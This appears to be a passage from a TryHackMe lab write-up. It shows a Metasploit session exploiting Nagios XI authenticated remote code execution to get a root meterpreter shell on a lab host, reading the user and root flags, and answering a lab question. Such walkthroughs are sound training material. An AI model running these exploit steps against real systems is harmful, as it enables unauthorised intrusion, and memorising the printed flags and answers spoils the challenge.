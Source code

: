 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 10.10.135.242
RHOSTS => 10.10.135.242
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > run
```

```
meterpreter > shell
Process 13658 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
whoami
root
cd /home
ls
galand
cd galand
ls
nagiosxi
user.txt
cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
cd /root
ls
root.txt
scripts
cat root.txt
THM{c89b2e39c83067503a6508b21ed6e962}
```

1. What hidden file did you find?

`/PI3T.PNg`

3. Who is the creator of the file?
